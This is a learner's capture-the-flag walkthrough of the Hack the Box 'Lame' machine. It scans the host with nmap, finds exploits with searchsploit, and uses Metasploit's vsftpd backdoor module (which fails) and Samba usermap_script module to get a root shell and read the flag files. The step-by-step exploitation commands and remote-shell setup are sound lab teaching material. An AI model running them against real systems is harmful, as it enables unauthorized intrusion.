 ```yaml
---
title: "Lame Machine Walkthrough"
date: 2020-08-24
tags: ["HacktheBox", "Walkthrough"]
image : "/posts/Lame_Machine.png"
Description: "Step-by-step walkthrough of the Hack the Box Lame Machine."
---
```

1. In a new terminal window, run `nmap -sV -O -F --version-light 10.10.10.3`

![Image](https://user-images.githubusercontent.com/44144070/89726880-9b4c8980-d9d4-11ea-9c66-4269c021413f.png)
- Another option is to open **Zenmap** and run a port scan on the same IP (to see just the information on the ports, you can go to the **Ports/Hosts** tab)
    - **Zenmap** is a program that does a really good job at visualizing and breaking down `nmap` commands into digestible bites

![Image](https://user-images.githubusercontent.com/44144070/89726888-b7502b00-d9d4-11ea-9a64-1e5bd559f122.png)
![Image](https://user-images.githubusercontent.com/44144070/89726889-b8815800-d9d4-11ea-8bab-4a7be888eae5.png)

2. Now there a a LOT of different ways to use `nmap`, and being that I'm still learning you are going to be seeing a lot of different versions, but I will do my best to explain what each version does. The two versions used here I got from other tutorials and show different levels of detail when port scanning.
    - The first version we used was `nmap -sV -O -F --version-light 10.10.10.3`
        - `-sV`: Probes open ports to determine service/version info
        - `-O`: Enable OS detection
        - `-F`: Fast mode, scans fewer ports than the default scan
        - `--version-light`: Limit to most likely probes
    - The second version used (as seen in **Zenmap**) 
        - `-A`: Enable OS detection, version detection, script scanning, and traceroute
        - `-v`: Increase verbosity level (how detailed the process and results are)
3.	You’ll find that there are 4 available ports with different services running on them (21, 22, 139, 445)
4.	Port 21 shows **vsftpd 2.3.4**, let’s check if there are any known vulnerabilities
5.	Run command `searchsploit vsftpd 2.3.4`
    - What this does is search for any [Common Vulnerability and Exploits (CVE)](https://cve.mitre.org/about/index.html) and returns the name and location of the exploit in Kali

![Image](https://user-images.githubusercontent.com/44144070/89726895-be773900-d9d4-11ea-8b21-a2ea0eb85645.png)

6.	You'll see that there is one vulnerability, a *"Backdoor Command Execution"*
7.	We can try and use this vulnerability with **Metasploit**
    - **Metasploit** is a very nifty software that has a bunch of CVE exploits saved that can be run automatically
8.	Open **Metasploit** and use the command `search vsftpd 2.3.4`
    
![Image](https://user-images.githubusercontent.com/44144070/89726896-bfa86600-d9d4-11ea-9c96-eed449fe639d.png)

9.	You'll see 4 different options, and the fourth one will be our *"Backdoor Command Execution"* exploit
10.	Copy the address and run `use exploit/unix/ftp/vsftpd_234_backdoor`
11.	Type `show options` and we'll see that we need to set **RHOSTS** to the desired IP

![Image](https://user-images.githubusercontent.com/44144070/89726897-c040fc80-d9d4-11ea-8180-bbc1cf91524f.png)

12.	Do `set rhost 10.10.10.3`
13.	If we do `show options` again, then we'll see its set and can type `run`
    - What this does is tell **Metalsploit** where to direct the exploit

![Image](https://user-images.githubusercontent.com/44144070/89726898-c0d99300-d9d4-11ea-85af-1a4a549e7948.png)

14.	After a little bit, we'll get a message saying, *“Exploit completed, but no session was created”*,    meaning that the exploit was attempted but didn’t' work (if we do some [research](https://www.exploit-db.com/exploits/17491), it turns out that this exploit had since been fixed which is why our attempt failed)

![Image](https://user-images.githubusercontent.com/44144070/89726899-c1722980-d9d4-11ea-95b4-e9fb64ffb433.png)

15.	Let's continue to check the other option on port 139, **Samba**
16.	Run `search Samba 3.0.20` (which we know from our port scan) and we see two results.

![Image](https://user-images.githubusercontent.com/44144070/89726900-c20ac000-d9d4-11ea-9099-911a217b2ce9.png)

17.	We're going to want to focus on the first result, *"'Username map script' Command Execution"*
18.	We search that vulnerability in **Metasploit** with `searchsploit Samba 3.0.20`

![Image](https://user-images.githubusercontent.com/44144070/89726901-c20ac000-d9d4-11ea-85e7-e2c36f8375e4.png)

19.	We got a lot more options this time, but if we scroll through we see that option 15 is our *"username map script" Command Execution* vulnerability and copy the address and run `use exploit/multi/samba/usermap_script`
20.	Again we look at the settings and change the **RHOSTS** to our IP with show options and `set rhost 10.10.10.3` and then we're good to `run`

![Image](https://user-images.githubusercontent.com/44144070/89726902-c2a35680-d9d4-11ea-9203-f5b35506d1b9.png)

21.	Chances are (unless you set it up before), you'll get the same message from when we ran the **vsftpd 2.3.4 exploit** *“Exploit completed, but no session was created”*, but if you run `show options` again, you'll see a new section
   
![Image](https://user-images.githubusercontent.com/44144070/89726903-c2a35680-d9d4-11ea-90b9-85e20e6f1227.png)

22.	Now we have an **LHOST** and **LPORT** section, but the natural **LHOST** is not what we want because HTB gives us our own local IP for when we are on its VPN. You can find yours in the **Access** settings on the HTB website

![Image](https://user-images.githubusercontent.com/44144070/89726904-c33bed00-d9d4-11ea-9645-090c1b55201a.png)

23.	Run `set lhost yourHtbIp` and then try `run` again
24.	You should see some new messages and after a few seconds one that says, *“Command shell session 1 opened”*, and we're in!

![Image](https://user-images.githubusercontent.com/44144070/89726905-c33bed00-d9d4-11ea-8fbf-1b58f3e2a092.png)

25.	Now that we have a shell, we can check what kind of privileges we have with `whoami`

![Image](https://user-images.githubusercontent.com/44144070/89726906-c3d48380-d9d4-11ea-90be-560bf8e6e84f.png)

26.	Turns out we are already in as the root user! Now all we need to do is find the password hashes under user.txt and root.txt
27.	From here we have the option of either digging around in all the files and directories for what we want, or we can use this command `find / -type f -name “nameOfFile”` where nameOfFile will be replaced with user.txt and root.txt
    - This command will return the file address of whatever file you put in place of *"nameOfFile"*. We know what to search for because HTB machines often store the user and root hashes in files named user.txt and root.txt

![Image](https://user-images.githubusercontent.com/44144070/89726907-c3d48380-d9d4-11ea-9444-af9a860827a4.png)

28.	Once we find the locations of the two files, we can just run `cat fileAddress` where fileAddress is what we got with the find command
29.	Take those hashes and submit them on your HTB account and get the points!

## Resources
- [Official Lame Writeup from Hack the Box](https://www.hackthebox.eu/home/machines/writeup/1)
- [Tutorial from freecodecamp.org](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-lame/)
- [`nmap` Command Help](https://nmap.org/book/man-briefoptions.html)

###### <font size="1">075 108 097 108 106 097 112 099 108 032 083 112 108 098 097 108 117 104 117 097 032 068 112 115 115 112 104 116 032 090 118 116 108 121 122 108 097</font>